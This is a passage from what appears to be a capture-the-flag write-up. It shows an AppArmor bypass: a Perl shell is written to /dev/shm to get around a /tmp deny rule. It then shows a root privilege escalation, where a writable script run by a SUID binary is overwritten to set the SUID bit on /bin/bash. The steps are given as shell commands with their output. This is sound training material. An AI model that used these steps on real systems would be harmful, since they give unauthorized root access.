 We just need to modify it to write to `/dev/shm` instead of `/tmp` since the `deny /tmp/** w` rule prevents us from writing to `/tmp`.

```console
think@publisher:~$ echo -e '#!/usr/bin/perl\nexec "/bin/sh"' > /dev/shm/test.pl
think@publisher:~$ chmod +x /dev/shm/test.pl
think@publisher:~$ /dev/shm/test.pl
$ id
uid=1000(think) gid=1000(think) groups=1000(think)
```

> We can also bypass `AppArmor` by copying one of the shells to `/dev/shm` and running it to get an unconfined shell. Since the inherit rule only applies to binaries under `/usr/bin` and `/usr/sbin`.
{: .prompt-tip }

With this shell, we are able to write to the `/opt/run_container.sh` file.

```console
$ echo '#!/bin/bash\nchmod +s /bin/bash' > /opt/run_container.sh
```

Now, running the `/usr/sbin/run_container`, which in turn will run the `/opt/run_container.sh` script, we can see changed permissions on `/bin/bash`.

```console
$ /usr/sbin/run_container
$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

At last, by running `/bin/bash -p`, we can get a shell as root and read the `root` flag.

```console
$ /bin/bash -p
bash-5.0# id
uid=1000(think) gid=1000(think) euid=0(root) egid=0(root) groups=0(root),1000(think)
bash-5.0# wc -c /root/root.txt
35 /root/root.txt
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}

</style>